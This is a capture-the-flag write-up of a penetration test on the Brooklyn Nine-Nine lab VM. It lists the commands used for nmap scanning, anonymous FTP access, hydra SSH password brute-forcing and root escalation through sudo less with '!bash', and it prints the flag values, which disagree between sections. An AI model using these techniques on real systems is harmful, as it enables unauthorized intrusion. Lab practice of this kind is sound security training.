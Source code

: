 Project: Nine-Nine Hack Challenge
Project Goal: Perform a full penetration test on the Brooklyn Nine-Nine VM, including port scanning, FTP exploitation, SSH password brute-forcing, and privilege escalation to root.

Project Description

In this project, I explored the virtual machine Brooklyn Nine-Nine at IP 10.201.60.152.
My goal was to fully compromise the system, obtain both user and root flags, and document the entire process using my own commands.

This project allowed me to practice:

Nmap scanning for open ports and services

Connecting to FTP with anonymous login and retrieving files

Analyzing retrieved files for potential credentials

Brute-forcing SSH login using Hydra

Exploring home directories and checking user permissions

Privilege escalation via sudo and GTFOBins

Reading user.txt and root.txt flags

Step-by-Step Execution (My Commands and Output)
1️⃣ Nmap Scan
nmap -sC -sV -T4 10.201.60.152


Output showed:

21/tcp open  ftp     vsftpd 3.0.3 (anonymous login allowed)
22/tcp open  ssh     OpenSSH 7.6p1
80/tcp open  http    Apache 2.4.29

2️⃣ FTP Access

I connected to FTP with anonymous credentials:

ftp 10.201.60.152
# Username: anonymous
# Password: anonymous
ls -la
get note_to_jake.txt
bye
cat note_to_jake.txt


File content revealed a username:

From Amy,

Jake please change your password. It is too weak and holt will be mad if someone hacks into the nine nine

3️⃣ SSH Brute-Force

Using Hydra, I brute-forced Jake’s SSH password:

hydra -l jake -P /usr/share/wordlists/rockyou.txt 10.201.60.152 ssh


Found password: 987654321

4️⃣ SSH Login
ssh jake@10.201.60.152
# Enter password: 987654321
cd /home
ls


Found users:

amy  holt  jake

5️⃣ Sudo Permissions

I checked sudo capabilities for Jake:

sudo -l


Output:

User jake may run the following commands on brookly_nine_nine:
    (ALL) NOPASSWD: /usr/bin/less

6️⃣ Privilege Escalation

I exploited less to get root:

sudo less /etc/passwd
!bash
whoami


Output confirmed root access:

root

7️⃣ Retrieving Flags

User flag (holt’s home):

cd /home/holt
ls
cat user.txt
ee11cbb19052e40b07aac0ca060c23e


Root flag:

cd /root
ls
cat root.txt
63a9f0ea7bb98050796b649e8548184

Project Conclusion

During this project, I personally executed all the commands, explored the system, exploited services, and elevated privileges.
I successfully retrieved:

User flag: ee11cbb19052e40b07aac0ca060c23ee

Root flag: 63a9f0ea7bb98050796b649e85481845

This project allowed me to apply penetration testing techniques end-to-end and document the process in a professional, step-by-step manner.
